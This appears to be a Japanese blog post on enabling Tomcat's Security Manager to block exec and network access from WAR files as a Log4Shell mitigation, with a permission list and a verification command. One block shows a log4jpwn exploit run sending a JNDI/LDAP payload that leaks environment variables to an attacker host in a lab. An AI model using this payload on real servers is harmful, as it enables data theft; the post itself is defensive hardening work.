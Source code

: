 ```yaml
---
layout:        post
title:         "Tomcatでwarのexec実行やネットワーク接続を禁止する"
date:          2022-01-23
category:      Java
cover:         /assets/cover14.jpg
redirect_from:
comments:      true
published:     true
latex:         false
photoswipe:    false
syntaxhighlight: true
# sitemap: false
# feed:    false
---
```


Tomcatのセキュリティマネージャを有効にして、Tomcatを起動することで、各jarファイルが実行できる権限を制限することができます。

/etc/tomcat/tomcat.conf
```conf
SECURITY_MANAGER="true"
```

制限される権限は以下のものがあります。セキュリティマネージャを有効にすることで、攻撃する際に使用される権限が制限されます。
- java.util.PropertyPermission : JVMプロパティへの読み書き権限
- java.lang.RuntimePermission : exitやexecなどのシステム関数の実行権限
- java.io.FilePermission : ファイルとディレクトリへの読み書き実行権限
- java.net.SocketPermission : ネットワークソケットの使用権限
- java.net.NetPermission : マルチキャストネットワークの使用権限
- java.lang.reflect.ReflectPermission : Javaクラスに対するリフレクションの使用権限
- java.security.SecurityPermission : セキュリティメソッドへのアクセス権限
- java.security.AllPermission : セキュリティマネージャーの制限なしで実行する権限

Log4j2の脆弱性 (Log4shell) を含むWebアプリで、環境変数の値を攻撃者サーバの8888番ポートに送信させる攻撃は、失敗するようになりました。
```bash
~]$ python3 log4jpwn/pwn.py --target http://192.168.56.105:8080/log4j2-vulnapp/ --exploit-host 192.168.56.104 --payload-query-string --leak '${env:PATH}'
 i| starting server on 0.0.0.0:8888
 i| server started
 i| setting payload in User-Agent header
 i| setting payload as query string 'name'
 i| sending exploit payload ${jndi:ldap://192.168.56.104:8888/${env:PATH}} to http://192.168.56.105:8080/log4j2-vulnapp/
 i| request url was: http://192.168.56.105:8080/log4j2-vulnapp/?name=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.104%3A8888%2F%24%7Benv%3APATH%7D%7D
 i| response status code: 500
```
セキュリティマネージャを有効にすることで、脆弱性を利用した攻撃はできなくなりましたが、エラーによってサービスが停止するようになりました。

注意点としては、構成によってはjarがロギングする権限もないため、セキュリティマネージャによってアクセス拒否してもログに残らず、何が発生したかわからない状態になる可能性があります。

デフォルトのTomcatセキュリティポリシーの場所は /etc/tomcat/catalina.policy です。

tomcat のセキュリティマネージャが有効化されて起動しているかの確認は、以下のコマンドを実行して java のオプションに `-Djava.security.manager` が含まれていれば、有効化されていることが確認できます。
```bash
~]$ ps auxw | grep tomcat | grep security
tomcat   14572  0.7  7.7 1426120 79028 ?       Ssl  12:00   0:11 java -Dlog4j.configurationFile=file:///etc/tomcat/log4j2.xml -classpath /usr/share/tomcat/bin/bootstrap.jar:/usr/share/tomcat/bin/tomcat-juli.jar:/usr/share/java/commons-daemon.jar -Dcatalina.base=/usr/share/tomcat -Dcatalina.home=/usr/share/tomcat -Djava.endorsed.dirs= -Djava.io.tmpdir=/var/cache/tomcat/temp -Djava.util.logging.config.file=/usr/share/tomcat/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djava.security.manager -Djava.security.policy==/usr/share/tomcat/conf/catalina.policy org.apache.catalina.startup.Bootstrap start
```

以上です。

- 前回の記事：[Log4j2の脆弱性がSELinuxで防げるかを検証する](http://localhost:4000/blog/java/log4j2-vuln-and-selinux)


#### 参考文献
- [Apache Tomcat 9 -- Security Manager How-To](https://tomcat.apache.org/tomcat-9.0-doc/security-manager-howto.html)

